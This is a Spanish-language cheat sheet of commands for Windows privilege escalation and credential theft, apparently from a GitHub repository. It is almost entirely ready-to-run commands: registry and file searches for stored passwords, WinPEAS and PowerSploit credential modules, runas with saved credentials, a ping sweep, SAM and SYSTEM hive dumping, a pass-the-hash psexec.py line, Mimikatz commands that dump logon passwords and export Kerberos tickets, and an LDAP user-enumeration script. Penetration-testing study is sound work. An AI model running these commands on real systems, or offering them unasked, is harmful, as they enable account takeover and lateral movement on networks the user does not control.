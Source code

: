 # Formas tipicas de escalar privilegios para Windows

- WinPEAS
- PowerSploit
- Save Creds
- Sam y System
- Archivos de Configuracion
- Registro

# - Registro
```powershell
reg query HKLM /f password /t REG_SZ /s

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```
Para contraseñas en Putty
```powershell
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s
```
# WinPEAS
```powershell
winPEAS.exe quiet filesinfo userinfo
winPEAS.exe quiet windowscreds
winPEAS.exe quiet searchfast filesinfo
```

# PowerSploit
Estos son sus modulos a probar
```powershell
Get-UnattendedInstallFile
Get-Webconfig
Get-ApplicationHost
Get-SiteListPassword
Get-CachedGPPPassword
Get-RegistryAutoLogon
``` 
# Credenciales Guardadas
```cmd
cmdkey /list
``` 
Runas --> en Caso de Tener credenciales guardadas de otro usuario podriamos ejecutar acciones o binarios
```powershell
runas /savecred /user:<usuario> <ejecutable> 
```

# Script para enumerar Otras interfaces
```cmd
for /L %i in (1,1,255) do @ping -n 1 -w 200 192.168.1.%i > nul && echo 192.168.1.%i is up.
```

# Archivos de Configuracion
Buscando por archivos que contengan la palabra pass o extension .config
```cmd
dir /s *pass* == *.config
```
Buscando por archivos que contengan la palabra password y acaben por la extension .xml
```cmd
findstr /si password *.xml *.ini
```
- Modulo de Metasploit para buscar por password recursivamente
post/windows/gather/enum_unattend

# Sam y System
Los archivos SAM y SYSTEM, se almacenan en el directorio:
```cmd
C:\Windows\System32\config
```
Buscando por Backups de Sam y System
```cmd
C:\Windows\Repair
C:\Windows\System32\config\RegBack
```
Si los hubiesemos encontrado o tuviesemos privilegios para realizar una copia de los mismos
```
reg save HKLM\SAM SAM.backup
reg save HKLM\SYSTEM SYSTEM.backup
```

```
psexec.py -hashes 'aad3b435b51404eeaad3b435b51404ee:f58b86e89c8631e432cf1a0232362853f' WORKGROUP/administrator@11.111.128.10 cmd
```

# Mimikatz

````bash
privilege::debug

sekurlsa::logonpasswords

sekurlsa::tickets

kerberos::list /export
````

# PowerShell LDAP Script TGT or TGS

````bash
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"

$SearchString += $PDC + "/"

$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"

$SearchString += $DistinguishedName

$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)

$objDomain = New-Object System.DirectoryServices.DirectoryEntry

$Searcher.SearchRoot = $objDomain

$Searcher.filter="samAccountType=805306368"

$Result = $Searcher.FindAll()

Foreach($obj in $Result)
{
    Foreach($prop in $obj.Properties)
    {
        $prop
    }
    
    Write-Host "------------------------"
}

````
